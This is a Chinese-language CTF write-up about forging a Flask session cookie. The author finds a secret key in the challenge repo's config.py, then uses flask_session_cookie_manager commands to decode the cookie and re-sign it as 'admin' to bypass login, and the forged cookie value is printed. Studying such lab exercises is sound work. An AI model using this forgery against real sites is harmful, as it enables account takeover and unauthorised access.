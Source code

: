 可惜的是，最后没能跑出来结果......

再看看第一个位置：

{% if current_user.is_authenticated and session['name'] == 'admin' %}

看来我们要保证session的name项是admin就可以做到身份认证，最自然的果然是想到cookie伪造，于是我们先在外面随意创建的账号出用bs抓包来看看cookie：

因为网站框架是Flask，Cookie的生成方式是通过session:

Flask 默认 session cookie（当未配置服务器端 session）采用 itsdangerous 库进行序列化、压缩和签名。典型结构如下：

session=<payload>.<timestamp>.<signature>

- payload：序列化后的 session 数据，通常经过 zlib 压缩和 base64 编码。
- timestamp：base64 编码的时间戳（可选，部分配置有）。
- signature：使用服务器 secret key 和 HMAC-SHA1/SHA256 算法生成的签名，防止 cookie 被客户端篡改。

我们的默认账号的cookie是：

Cookie: session=.eJw9kMFqg0AURX-lvLULNboRsmiYKBbeE2XMMLOR1projJOCJlQN-fcOWXR574UD5z6gOU_d3ENym-6dB83wDckD3r4gAeTok_7oyeabFNRTeNxhlvbSkla2shhiILd0RJdQlBHp1keWGsVHTSwdKMyXgpPFrVwUbzfUB9ed-oLli2JyJXEyyC6r0mVMzMSoR0NZZSisV8nzHbE6xi1faass8Toq-KF3-yhtHipb-4WoFxRKI2v38PSgnadzc_sx3fVfQVpliF9Ch_cVrwbMMCiEXCTHiBgZtMrpydWp_hZCjVIcfXzfv3DXT9s5RBCAB_e5m17XQODD8w9jSWPh.aPe23w.QX_Vbf9uWGUazaveaBODxYHGMgE

利用妙妙工具flask_session_cookie_manager我们可以解析这串cookie如下：

b'{"_fresh":true,"_id":{" b":"MTM0NjJhNmIzYWNhN2E3MGFhYmNjZmRmM2M1YzFlMjZmMWQ4Njc0MDFkZTljNDFiN2IxOTNmMzQxZTczMjBiN2VhODIxZDYyNWVkMDgyZjQ5NDk5MjlkNGRkN2UyYTI3NDU5MzIyNzRmNTU4OTBhNGRlYmI2ZmU0OWUxMWZjMDc="},"csrf_token":{" b":"YmZkNTg2NDk0ZTRiMGM1OWYxYTM4NDNkMmZhNmYyMTMwOWZlYWE0MA=="},"name":"11","user_id":"10"}'

妙妙工具由pip包管理，装在conda虚拟环境web-exp中，进入F:\app\目录下的对应git仓库运行：

python flask_session_cookie_manager3.py decode -c "<session的值>"

就可以成功解析。

类似的，为了使得name解析出来是admin，我们再用这个工具加密一下：

python flask_session_cookie_manager3.py encode -s <salt> -t "<原序列>"

盐我们可以在git库中的config.py找到，是"ckj123"。

具体就是：

```
python flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh':True,'_id':{'b':'MTM0NjJhNmIzYWNhN2E3MGFhYmNjZmRmM2M1YzFlMjZmMWQ4Njc0MDFkZTljNDFiN2IxOTNmMzQxZTczMjBiN2VhODIxZDYyNWVkMDgyZjQ5NDk5MjlkNGRkN2UyYTI3NDU5MzIyNzRmNTU4OTBhNGRlYmI2ZmU0OWUxMWZjMDc='},'csrf_token':{'b':'YmZkNTg2NDk0ZTRiMGM1OWYxYTM4NDNkMmZhNmYyMTMwOWZlYWE0MA=='},'name':'admin','user_id':'1'}"
```

输入的原序列要修改：整体用""包裹，内部则是只使用单引号的一个标准python-dict格式

得到输出：

```
.eJw1kMGKgzAURf_lrV1YWzeFLqakigPviRIbkk1pra0mxgFtGU3pv08ozPLeCwfOfcHpNjZTC9vH-GwCOHVX2L7gAltAjiHp75Zs5qSglqLDGtOklZa0sqXFCFfSJT36hKLYkK5DZIlRvNfEko6ibM45WXTFrHjtUO99d2xzls2KyYXE0SC7L0oXMTETo-4NpaWhqFokz9bEqhhdtpArLfFqk_N96_de2ixStgpzUc0olEZW7-AdQD2Nt9PjxzTDv4G0yhC_R54eKl52mOIqF3KWHDfEyKBV3k4u3vQ3F6qX4hDi1-5DG8628Yjz1XYDBPCcmvHzDazg_Qe8GWUY.aPe3ZA.GnLYRNRpESvDMrGpC6UgklfhdvE
```

在repeater中用这段cookie进行替换，访问index页，即可得到flag!!!

关于网页cookie的欺骗还可以有很多内容，值得研究！

## Conclusion

现在是2025年10月22日00:46:13，好困啊，我要睡觉了，今晚居然只做了两题嘛！




